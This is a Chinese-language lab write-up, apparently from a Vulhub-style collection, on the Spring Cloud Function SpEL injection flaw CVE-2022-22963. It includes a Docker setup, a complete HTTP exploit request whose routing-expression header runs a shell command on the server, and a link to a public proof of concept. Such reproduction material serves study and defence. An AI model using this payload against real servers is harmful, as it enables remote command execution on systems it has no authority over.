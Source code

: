 # Spring Cloud Function SpEL表达式命令注入 CVE-2022-22963

## 漏洞描述

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22963
- https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw
- https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

## 环境搭建

Vulhub执行如下命令启动一个使用Spring Cloud Function 3.2.2编写的服务器：

```
docker-compose up -d
```

服务启动后，执行`curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test`即可执行`uppercase`函数，将输入字符串转换成大写。

## 漏洞复现

发送如下数据包，`spring.cloud.function.routing-expression`头中包含的SpEL表达式将会被执行：

```
POST /functionRouter HTTP/1.1
Host: y:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![image-20220412163215931](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412163215931.png)

`touch /tmp/success`已经成功被执行：

<img src="https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412163527748.png" alt="image-20220412163527748" style="zoom:50%;" />

## 漏洞POC

- Spring-cloud-function-SpEL-RCE：https://github.com/chaosec2021/EXP-POC/tree/main/Spring-cloud-function-SpEL-RCE

